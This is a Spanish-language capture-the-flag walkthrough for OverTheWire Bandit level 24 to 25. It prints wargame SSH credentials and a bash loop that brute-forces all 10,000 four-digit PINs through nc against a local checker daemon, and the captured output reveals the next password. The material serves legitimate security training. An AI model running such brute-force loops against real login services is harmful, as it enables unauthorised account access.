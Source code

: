 # Bandit Level 24 -> Level 25



## objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso al nivel
**ssh bandit24@bandit.labs.overthewire.org -p 2220**
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar


## solucion
```bash()
bandit24@bandit:~$ nc -v localhost 30002
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123Timeout. Exiting.

bandit24@bandit:~$ VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar: command not found
bandit24@bandit:~$ nc -v localhost 30002
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:~$  for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$ exit

```

## Notas adicionales
| comando | descripcion
| nc -v | Establece el nivel de verbosidad. Úselo varias veces para aumentar la verbosidad. |
| grep -v |  imprime todas las líneas que no coinciden con el patrón. |
| echo | es para mostrar una linea de texto/cadena que se pasa como argumento. Este comando es incorporado principalmente en scripts de shelly archivos de tipo bash para generar texto en la pantalla o en un archivo |

## Referencias
[[https://www.geeksforgeeks.org/practical-uses-of-ncnetcat-command-in-linux/|Link del comando nc]]
[[https://www.geeksforgeeks.org/echo-command-in-linux-with-examples/|Referencia del comando echo]]
[[https://www.geeksforgeeks.org/grep-command-in-unixlinux/|Referencia de comando grep]]
[[https://overthewire.org/wargames/bandit/bandit25.html|Link del nivel 24 al 25]]


